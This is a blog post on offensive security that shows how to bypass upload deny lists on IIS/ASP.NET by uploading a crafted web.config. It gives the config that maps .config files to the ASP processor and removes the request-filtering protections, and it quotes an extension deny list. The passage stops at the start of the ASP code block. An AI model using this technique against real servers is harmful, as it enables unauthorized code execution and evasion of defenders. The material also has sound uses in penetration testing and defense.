 ```yaml
---
layout: post
Title: "Bypass Upload Restrictions and Evade Detection"
---
```

Let's be honest, bypassing upload restrictions is not something new and usually involves different methods to achieve the same goal: execute your 1337 code on your victim; But you can't always do this without getting caught by the Blue Team.

On this post I'll be showing a combination of an old technique to bypass upload restriction on ASP/.NET applications and some ways to evade detection.

## Step 1 - Bypass Upload Restrictions

It's really common to find applications that ~~still~~ use a deny list to restrict file extension, boiling down to a battle between your creativity and the developer's imagination. Usually you would find that the list contains most of the "bad" extensions:

 `"html,htm,php,php2,php3,php4,php5,phtml,pwml,inc,asp,aspx,ascx,jsp,cfm,cfc,pl,bat,exe,com,dll,vbs,js,reg,cgi,htaccess,asis,sh,shtml,shtm,phtm,cfc,cfm,cfml,cfr,cfswf,jsp,jws"`
 
But hey, what if we use something that does not appear to be bad? Presenting: **web.config**.  According to [MS](https://docs.microsoft.com/en-us/aspnet/core/host-and-deploy/iis/web-config?view=aspnetcore-5.0), "The web.config is a file that is read by IIS and the ASP.NET Core Module to configure an app hosted with IIS". 

Remember that I said something about an old technique? This is it! On 2014 a researcher (@irsdl) shared this technique, which I believe to be the first person to publicly write about it _(don't quote me on that)_ - You can read it more here: [Upload a web.config File for Fun & Profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/). 

The technique is pretty straightforward, we upload a file named **web.config** that sets a special handler to interpret our own file with the ASP script processor, this will make code inside web.config be executed by IIS as a valid ASP file. 

**Don't break things:** It's important to mention that things may break if you replace an already existent config file, I would recommend you to try to upload this file to a different folder than the application root. This file usually contains critical information like DB connection strings, rules to application path and so on, so be careful. 

Simple "Hello World" with this technique:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% 
```
